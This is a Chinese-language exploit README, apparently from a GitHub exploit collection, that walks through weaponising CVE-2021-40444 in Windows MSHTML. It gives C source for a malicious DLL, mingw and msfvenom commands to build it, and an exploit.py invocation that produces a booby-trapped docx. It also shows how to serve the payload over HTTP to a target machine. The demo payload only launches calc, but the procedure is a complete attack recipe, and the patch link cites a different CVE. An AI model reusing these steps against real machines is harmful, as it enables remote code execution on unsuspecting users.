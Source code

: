 ### CVE-2021-40444

#### 描述

这个漏洞是IE浏览器的漏洞，但是offer相关组件默认使用的是IE浏览器，所以在offer相关组件禁用了ActiveX也一样可以执行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows 10          | x86/x64          |         |        |          |
| Windows 10          | x86/x64          | 1607    |        |          |
| Windows 10          | x86/x64/AMD64    | 1809    |        |          |
| Windows 10          | x86/x64/AMD64    | 1909    |        |          |
| Windows 10          | x86/x64/AMD64    | 2004    |        | &#10004; |
| Windows 10          | x86/x64/AMD64    | 20H2    |        |          |
| Windows 10          | x86/x64/AMD64    | 21H1    |        |          |
| Windows 7           | x86/x64          |         | SP1    |          |
| Windows 8.1         | x86/x64          |         |        |          |
| Windows Rt 8.1      |                  |         |        |          |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        |          |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |



#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-36934
```

#### 利用原理

根据之前在野利用样本`938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52`可以知道，其实就是利用默认浏览器（IE）加载ActiveX

![image-20210911112944428](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_1.png)

本质上恶意利用只需要修改样本中的`document.xml.rels`文件中框起来mhtml和x-usc这两段内容该为恶意目标网页，即可达到利用

#### 利用方式

首先需要生成一个恶意的DLL文件，通过msf或者自己编译都行

- 自己编译

  ```c
  //calc.c
  #include <windows.h>
  
  void exec(void) {
  	system("cmd /c calc");
  	return;
  }
  
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,
      DWORD fdwReason, 
      LPVOID lpReserved )
  {
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
             exec(); 
             break;
  
          case DLL_THREAD_ATTACH:
              break;
  
          case DLL_THREAD_DETACH:
              break;
  
          case DLL_PROCESS_DETACH:
              break;
      }
      return TRUE;
  }
  ```

  然后运行命令

  ```
  i686-w64-mingw32-gcc -shared calc.c -o calc.dll
  ```

- 通过msf编译

  ```
  msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f dll>>calc.dll
  ```

> 最好使用MSF生成DLL文件！
>
> 还有请看准对应机器，有些Windows 10 版本不存在该问题

安装环境所需要的依赖`sudo apt-get install lcab`，生成 cab用的

接着使用一键化脚本，`test/calc.dll`这个为你生成的哪个dll所在的绝对路径，`http://you_ip`你启动exp这台机器的IP

```
cd CVE-2021-40444 ; python3 exploit.py generate test/calc.dll http://you_ip
```

![image-20210911115757383](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_2.png)

然后启动http服务

```
cd srv ; python3 -m http.server 80
```

接着把生成的恶意docx文件（在`out/`文件夹中），放到目标机器上（Windows 10 2004 x64），即可执行成功

![1](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_3.gif)

#### 参考项目

- [prcabral](https://github.com/prcabral/CVE-2021-40444)